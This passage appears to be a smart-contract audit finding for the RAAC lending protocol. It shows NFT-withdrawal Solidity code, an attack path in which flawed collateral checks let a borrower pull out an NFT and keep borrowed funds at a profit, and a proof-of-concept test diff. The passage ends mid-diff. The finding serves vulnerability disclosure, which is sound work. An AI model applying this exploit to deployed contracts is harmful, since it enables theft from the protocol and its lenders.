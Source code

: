 ```diff
   304:                  }
   305:          
   306:                  // Remove NFT from user's deposited NFTs
   307:                  for (uint256 i = 0; i < user.nftTokenIds.length; i++) {
   308:                      if (user.nftTokenIds[i] == tokenId) {
   309:                          user.nftTokenIds[i] = user.nftTokenIds[user.nftTokenIds.length - 1];
   310:                          user.nftTokenIds.pop();
   311:                          break;
   312:                      }
   313:                  }
   314:                  user.depositedNFTs[tokenId] = false;
   315:          
   316:                  raacNFT.safeTransferFrom(address(this), msg.sender, tokenId);
   317:          
   318:                  emit NFTWithdrawn(msg.sender, tokenId);
   319:              }
```

Attack Path:
- Deposit NFT1 worth 100
- Deposit NFT2 worth 100
- Thus total collateral = 200
- Borrow an amount of 124
- Withdraw NFT1. Total collateral now = 100.
- Protocol thinks due to faulty logic that `200 - 100 < 124 * 80%` or `100 < 99` is `false` so things are okay and does not revert.
- Attacker now has `100 + 124 = 224`. Their profit is `24`.

## Impact
User can leave the protocol underwater and extract profit.

## Proof of Concept
Modify this [existing test](https://github.com/Cyfrin/2025-02-raac/blob/main/test/unit/core/pools/LendingPool/LendingPool.test.js#L255) and run to see it pass, even though it should have failed with error `WithdrawalWouldLeaveUserUnderCollateralized`:
```diff
    it("should allow user to borrow crvUSD using NFT collateral", async function () {
+       const tokenId2 = 2;
+       const amountToPay2 = ethers.parseEther("100");
+       await raacHousePrices.setOracle(owner.address);
+       await raacHousePrices.setHousePrice(tokenId2, amountToPay2);
+       await token.mint(user1.address, amountToPay2);
+       await token.connect(user1).approve(raacNFT.target, amountToPay2);
+       await raacNFT.connect(user1).mint(tokenId2, amountToPay2);
+
+       await raacNFT.connect(user1).approve(lendingPool.target, tokenId2);
+       await lendingPool.connect(user1).depositNFT(tokenId2);
+        
-       const borrowAmount = ethers.parseEther("50");
+       const borrowAmount = ethers.parseEther("124");

        await lendingPool.connect(user1).borrow(borrowAmount);
    
        const crvUSDBalance = await crvusd.balanceOf(user1.address);
-       expect(crvUSDBalance).to.equal(ethers.parseEther("1050"));
+       expect(crvUSDBalance).to.equal(ethers.parseEther("1124"));
    
        const debtBalance = await debtToken.balanceOf(user1.address);

        expect(debtBalance).to.gte(borrowAmount);
+
```